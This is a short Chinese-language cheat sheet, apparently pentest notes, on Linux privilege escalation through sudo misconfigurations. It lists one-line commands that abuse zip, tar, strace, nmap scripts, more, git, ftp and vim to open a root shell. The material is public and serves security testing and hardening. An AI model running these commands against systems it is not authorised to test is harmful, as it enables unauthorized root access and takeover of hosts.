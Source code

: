 ### sudo

```bash
sudo -l # 查看当前用户执行哪些 sudo 命令无需密码
```

下面只记录部分,更多内容访问 [GTFOBins](https://gtfobins.github.io/)

- zip
    ```bash
    sudo zip /tmp/tmp.zip /tmp/ -T --unzip-command="sh -c /bin/bash"

    -T 表示测试 test.zip 的完整性
    -unzip-command 与 -T 一起使用，可以指定自定义命令用于解压 test.zip
    ```

- tar
    ```bash
    sudo tar cf /dev/null test --checkpoint=1 --checkpoint-action=exec=/bin/bash

    -checkpoint-action 选项是提权点,可以自定义需要执行的动作
    ```

- strace
    ```bash
    sudo strace -o /dev/null /bin/bash
    ```

- nmap

    低版本的 nmap3.x 有 interactive 模式，且设置了 suid，这个时候可以进入交互模式 执行 !sh 命令即可轻松完成提权。
    ```bash
    echo "os.execute('/bin/bash')" > /tmp/shell.nse
    sudo nmap --script=/tmp/shell.nse
    ```

- more
    ```bash
    sudo more /etc/hosts
    !/bin/bash
    ```

- git
    ```bash
    sudo git help status
    !/bin/bash
    ```

- ftp
    ```bash
    sudo ftp
    ftp> !/bin/bash
    ```

- vim
    ```bash
    sudo vim -c '!bash'
    ```
